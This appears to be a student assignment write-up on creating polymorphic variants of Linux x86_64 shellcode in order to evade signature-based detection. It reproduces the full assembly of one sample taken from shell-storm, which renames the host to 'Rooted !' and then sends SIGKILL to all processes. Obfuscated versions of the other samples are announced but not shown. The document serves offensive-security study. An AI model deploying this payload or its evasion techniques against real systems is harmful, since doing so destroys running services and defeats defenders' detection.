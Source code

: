 ## Assignment #6: Polymorphing
---
---
### Introduction
---
This assignment consists of taking three shellcode samples from shell-storm.org for Linux x86_64 and create polymorphic examples that are no larger than 150% the original size.

The goal of this task is to mimic the same original functionality, obfuscating the code, in a try to to beat pattern matching techniques that could be used to fingerprint the payload.

Below are the three samples choosen, with their original code and the polymorphic version, with brief explanations on what has been done.

### Sample 1: `sethostname() & killall 33 bytes shellcode`
---

* Shellcode Name: Linux/x86_64 sethostname() & killall 33 bytes shellcode
* Author: zbt
* URL: [http://shell-storm.org/shellcode/files/shellcode-605.php](http://shell-storm.org/shellcode/files/shellcode-605.php)
* Description: Changes the name of the host to "Rooted!" and then kills all processes running on the system
* Original Shellcode Size: 33 bytes
* Max Size of the polymorphic Version: 49 bytes
* Size of the Created Polymorphic Version: **46 bytes (below the 150%)**

The original code for the sample is:

```asm
    section .text
        global _start
 
    _start:
 
        ;-- setHostName("Rooted !"); 22 bytes --;
        mov     al, 0xaa
        mov     r8, 'Rooted !'
        push    r8
        mov     rdi, rsp
        mov     sil, 0x8
        syscall
 
        ;-- kill(-1, SIGKILL); 11 bytes --;
        push    byte 0x3e
        pop     rax
        push    byte 0xff
        pop     rdi
        push    byte 0x9
        pop     rsi
        syscall
```

